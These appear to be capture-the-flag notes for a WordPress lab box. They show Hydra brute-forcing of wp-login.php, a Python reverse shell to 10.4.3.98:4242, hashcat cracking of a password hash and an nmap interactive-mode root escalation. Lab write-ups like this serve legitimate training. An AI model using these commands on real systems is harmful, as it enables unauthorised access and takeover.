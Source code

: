 ### Gobuster get the login page and credential list

### Hydra for wp-admin account
```
hydra -L name -p 123456 $ip http-post-form "/wp-login.php:username=^USER^&password=^PASS^:F=ERROR: Invalid username." -V


log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.45.120%2Fwp-admin%2F&testcookie=1


hydra -L name -p 123456 $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.45.120%2Fwp-admin%2F&testcookie=1:F=Invalid username" -V

[80][http-post-form] host: 10.10.45.120   login: Elliot   password: 123456

hydra -l Elliot -P fsocity.dic $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.45.120%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

ER28-0652
```

### Theme 404 reverse shell

### Python stable shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.3.98",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

### Horizontal Privilege Escalation
hashcat -a 0 -m 0 hash rockyou.txt
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

### Now we have the robot, Final Privilege Escalation
```
./linpeas.sh | tee linout.txt
nmap --interactive
nmap> !sh
```
